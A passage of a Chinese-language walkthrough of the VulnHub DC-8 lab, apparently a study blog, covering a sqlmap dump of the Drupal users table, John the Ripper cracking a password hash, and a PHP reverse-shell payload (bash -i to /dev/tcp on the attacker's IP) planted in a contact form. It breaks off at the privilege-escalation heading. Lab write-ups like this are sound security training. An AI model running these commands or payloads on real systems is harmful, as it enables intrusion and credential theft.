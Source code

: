 ## 使用sqlmap进行测试

因为已经知道数据库、表等，直接最终数据

```shell
sqlmap -u "http://192.168.10.12/?nid=1" -D d7db -T users -C name,pass --dump --batch
```

![](D:\stu\vulnhub\DC靶场\pic-8\22.jpg)

## hash破解

把两组密码放置在文件中，使用`john`进行破解，破解出一个很快`turtle`

```shell
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

![](D:\stu\vulnhub\DC靶场\pic-8\23.jpg)

两个用户，一个密码，一个个进行测试，啧，突然想到这里忘了进行网站目录爆破了，就先访问`robots.txt`吧，有东西的话，也省的再扫描，好嘛，CMS路径时默认的，没有修改

![](D:\stu\vulnhub\DC靶场\pic-8\24.jpg)

# 反弹shell

访问`/user/login`，然后用上面的用户名和密码进行测试

使用破解出的密码`admin`，以`john`用户登录成功

登录网站后，进行功能点测试，就是所有东西都点击点击，看一下，先从最简单的明显的去查看

发现在一处，与前面`DC-7`时所进行的操作很像，都借助`php`

![](D:\stu\vulnhub\DC靶场\pic-8\25.jpg)

尝试编写代码进行测试，先选择`php code`，然后添加下面的代码

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.10.2/9999 0>&1'");?>
```

![](D:\stu\vulnhub\DC靶场\pic-8\26.jpg)

在`kali`中使用`nc`开启监听9999端口

```shell
nc -lvvp 9999
```

但是这里保存成功后，并没有相关反应，仔细观察，这里是在`contact us`编写的，可能与这个菜单有关，在其界面发现有一个`view`，这里有表单，根据前面添加代码出，是对`form`进行设置的，所以需要触发表单，也就是需要输入信息，并提交，所以这里随便输入，点击下面的提交后，触发反弹

![](D:\stu\vulnhub\DC靶场\pic-8\27.jpg)

# 提权

